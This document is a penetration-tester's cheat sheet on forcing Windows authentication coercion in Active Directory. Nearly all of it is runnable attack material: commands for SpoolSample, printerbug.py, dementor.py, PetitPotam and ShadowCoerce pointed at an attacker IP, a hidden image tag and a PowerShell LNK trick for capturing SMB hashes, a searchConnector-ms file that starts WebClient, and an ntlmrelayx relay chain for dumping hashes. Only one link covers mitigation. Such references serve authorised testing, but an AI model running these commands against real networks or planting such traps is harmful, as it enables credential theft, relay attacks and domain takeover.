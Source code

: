 # Authentication Coercion

{% hint style="info" %}
It's a good idea to check if **NTLMv1 downgrade** is possible when triggering the callbacks.
{% endhint %}

{% content-ref url="/pentest/infrastructure/ad/ntlm/ntlmv1-downgrade.md" %}
[ntlmv1-downgrade.md](ntlmv1-downgrade.md)
{% endcontent-ref %}




## WebDAV (WebClient)

- [https://pentestlab.blog/2021/10/20/lateral-movement-webclient/](https://pentestlab.blog/2021/10/20/lateral-movement-webclient/)
- [https://www.tiraniddo.dev/2015/03/starting-webclient-service.html](https://www.tiraniddo.dev/2015/03/starting-webclient-service.html)

Check if callback via WebDAV (HTTP) is possible. It **is** when the `WebClient` service is running. If it's possible, then [NTLM Relay to LDAPS](/pentest/infrastructure/ad/delegation-abuse/rbcd#dhcpv6-wpad-ntlm-relay-rbcd) on behalf of the relayed machine account is your chance for [RBCD workstation takeover](https://gist.github.com/gladiatx0r/1ffe59031d42c08603a3bde0ff678feb).

Check via PowerShell:

```
PS > Install-Module -Name NtObjectManager
PS > Get-NtFile -Win32Path '\\192.168.1.11\pipe\DAV RPC SERVICE'
```

Check via CME:

```
$ cme smb hosts.txt -u snovvcrash -p 'Passw0rd!' -M webdav
```

Check via [GetWebDAVStatus](https://github.com/G0ldenGunSec/GetWebDAVStatus):

```
PS > .\GetWebDAVStatus.exe SRV01,SRV02 --tc 1
```

### Enable WebClient

Put the `.searchConnector-ms` file on a writable share. When a domain user opens target folder in explorer, the WebClient service should start automatically:

{% code title="Documents.searchConnector-ms" %}
```
<?xml version="1.0" encoding="UTF-8"?>
<searchConnectorDescription xmlns="http://schemas.microsoft.com/windows/2009/searchConnector">
    <description>Microsoft Outlook</description>
    <isSearchOnlyItem>false</isSearchOnlyItem>
    <includeInStartMenuScope>true</includeInStartMenuScope>
    <templateInfo>
        <folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType>
    </templateInfo>
    <simpleLocation>
        <url>https://whatever/</url>
    </simpleLocation>
</searchConnectorDescription>
```
{% endcode %}




## Force SMB authentication

- [https://github.com/xct/hashgrab](https://github.com/xct/hashgrab)

Forcing with a hidden image:

```html
<img src="\\10.10.13.37\pwn.ico" height="1" width="1" />
```

Forcing with a shortcut:

{% code title="lnk.ps1" %}
```powershell
$wsh = New-Object -ComObject WScript.Shell
$lnk = $wsh.CreateShortcut("\\SRV01\PublicShare\pwn.lnk")
$lnk.IconLocation = "\\10.10.13.37\pwn.ico"
$lnk.Save()
```
{% endcode %}




## Printer Bug (MS-RPRN)

{% embed url="https://twitter.com/DebugPrivilege/status/1410158556540719104" %}

Check if Spooler is running via Remote Registry:

```
$ rpcdump.py MEGACORP/snovvcrash:'Passw0rd!'@192.168.1.11 | grep -A2 -e MS-RPRN -e MS-PAR
```



### SpoolSample

* [https://github.com/leechristensen/SpoolSample](https://github.com/leechristensen/SpoolSample)
* [https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Spoolsample.ps1](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Spoolsample.ps1)
* [https://github.com/0x00ach/stuff/blob/master/MS-RPRN.exe](https://github.com/0x00ach/stuff/blob/master/MS-RPRN.exe)
* [https://github.com/BeetleChunks/SpoolSploit](https://github.com/BeetleChunks/SpoolSploit)

```
Cmd > .\SpoolSample.exe 192.168.1.11 10.10.13.37
Cmd > .\SpoolSample.exe 192.168.1.11 attacker@80/test.txt
Cmd > .\SpoolSample.exe 192.168.1.11 attacker@SSL/test.txt
```



### dementor.py

* [https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc](https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc)

```
$ python dementor.py -d megacorp.local -u snovvcrash -p 'Passw0rd!' 10.10.13.37 DC01.megacorp.local
$ python dementor.py -d megacorp.local -u snovvcrash -p 'Passw0rd!' attacker@80/test.txt DC01.megacorp.local
$ python dementor.py -d megacorp.local -u snovvcrash -p 'Passw0rd!' attacker@SSL/test.txt DC01.megacorp.local
```



### printerbug.py

* [https://https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)

```
$ python printerbug.py megacorp.local/snovvcrash:'Passw0rd!'@DC01.megacorp.local 10.10.13.37
$ python printerbug.py megacorp.local/snovvcrash:'Passw0rd!'@DC01.megacorp.local attacker@80/test.txt
$ python printerbug.py megacorp.local/snovvcrash:'Passw0rd!'@DC01.megacorp.local attacker@SSL/test.txt
```




## PetitPotam (MS-EFSR)

**CVE-2021-36942**

* [https://github.com/topotam/PetitPotam](https://github.com/topotam/PetitPotam)
* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/PowershellScripts/Invoke-Petitpotam.ps1](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/PowershellScripts/Invoke-Petitpotam.ps1)
* [https://gist.github.com/leechristensen/fda130890fb3c194115e7b856640c30e](https://gist.github.com/leechristensen/fda130890fb3c194115e7b856640c30e)
* [https://www.tiraniddo.dev/2021/08/how-windows-firewall-rpc-filter-works.html](https://www.tiraniddo.dev/2021/08/how-windows-firewall-rpc-filter-works.html)
* [https://itm4n.github.io/fuzzing-windows-rpc-rpcview/](https://itm4n.github.io/fuzzing-windows-rpc-rpcview/)
* [https://itm4n.github.io/from-rpcview-to-petitpotam/](https://itm4n.github.io/from-rpcview-to-petitpotam/)

```
$ python3 PetitPotam.py -d '' -u '' -p '' 10.10.13.37 192.168.1.11
$ python3 PetitPotam.py -d '' -u '' -p '' attacker@80/test.txt 192.168.1.11
$ python3 PetitPotam.py -d '' -u '' -p '' attacker@SSL/test.txt 192.168.1.11
Cmd > .\PetitPotam.exe 10.10.13.37 192.168.1.11 1
Cmd > .\PetitPotam.exe attacker@80/test.txt 192.168.1.11 1
Cmd > .\PetitPotam.exe attacker@SSL/test.txt 192.168.1.11 1
```

PetitPotam any host (not only a DC with null sessions allowed for the `IPC$` share) without initial creds via proxying through an authenticated session on behalf a DC-relayed machine account:

```
$ python3 Petitpotam.py -d '' -u '' -p '' 10.10.13.37 192.168.1.123
Something went wrong, check error status => SMB SessionError: STATUS_ACCESS_DENIED({Access Denied} A process has requested access to an object but has not been granted those access rights.)

$ sudo ntlmrelayx.py -ip 10.10.13.37 -t 192.168.1.123 -smb2support --no-http-server --no-wcf-server -socks

$ python3 Petitpotam.py -d '' -u '' -p '' 10.10.13.37 DC1.megacorp.local
ntlmrelayx> socks
ntlmrelayx> stopservers

$ sudo ./Responder.py -I eth0 -vA 
$ proxychains4 python3 Petitpotam.py -d MEGACORP -u 'DC1$' -no-pass 10.10.13.37 192.168.1.123
```

{% hint style="hint" %}
NTLM Relay DC1 to EXCH1 to get SOCKS ➡️ SOCKS proxy PetitPotam to EX1 as `DC1$` ➡️ NTLM Relay to EXCH2 to dump hashes
{% endhint %}

With Kerberos authentication:

```
$ getTGT.py megacorp.local/snovvcrash -hashes e929e69f7c290222be87968263a9282e:e929e69f7c290222be87968263a9282e -dc-ip 192.168.1.11
$ KRB5CCNAME=`pwd`/snovvcrash.ccache python3 PetitPotam.py -k -no-pass -d megacorp.local -u snovvcrash target.megacorp.local attacker.megacorp.local
```



### Mitigation

- [https://kb.cert.org/vuls/id/405600](https://kb.cert.org/vuls/id/405600)




## ShadowCoerce (MS-FSRVP)

- [https://pentestlaboratories.com/2022/01/11/shadowcoerce/](https://pentestlaboratories.com/2022/01/11/shadowcoerce/)
- [https://github.com/ShutdownRepo/ShadowCoerce](https://github.com/ShutdownRepo/ShadowCoerce)

```
$ python3 shadowcoerce.py -d megacorp.local -u snovvcrash -p 'Passw0rd!' 10.10.13.37 192.168.1.11
```
